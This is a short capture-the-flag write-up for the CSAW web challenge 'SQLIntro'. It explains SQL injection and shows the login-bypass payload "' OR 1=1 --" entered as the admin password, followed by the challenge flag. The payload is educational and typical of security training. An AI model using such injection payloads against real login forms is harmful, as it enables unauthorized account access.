 # SQLIntro
![Category Web](https://img.shields.io/badge/category-web-%232fc4e5.svg?longCache=true&style=popout)
![Score 50](https://img.shields.io/badge/score-50-brightgreen.svg?longCache=true&style=popout)
![195 solves](https://img.shields.io/badge/solves-195-%2317a2b8.svg?longCache=true&style=popout)

Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Can you log into the admin's account without knowing the password?
```
web.chal.csaw.io:10104
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database.  
The usage of the **OR** statement allows for additional logic in the SQL query.  Appending **OR 1=1** to a SQL query will make it always true since 1=1. <br />
[Read More](https://www.w3schools.com/sql/sql_injection.asp) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
![screenshot](page.PNG) <br />

Username:
> admin

Password:
> ' OR 1=1 --&nbsp;    

**Note** **```  --  ```** is an inline comment.  This ignores the rest of the SQL query.

![screenshot](solution.PNG)
## Flag
```
flag{j00'V3_pa223d_w38_s3cUri7Y_101}
```
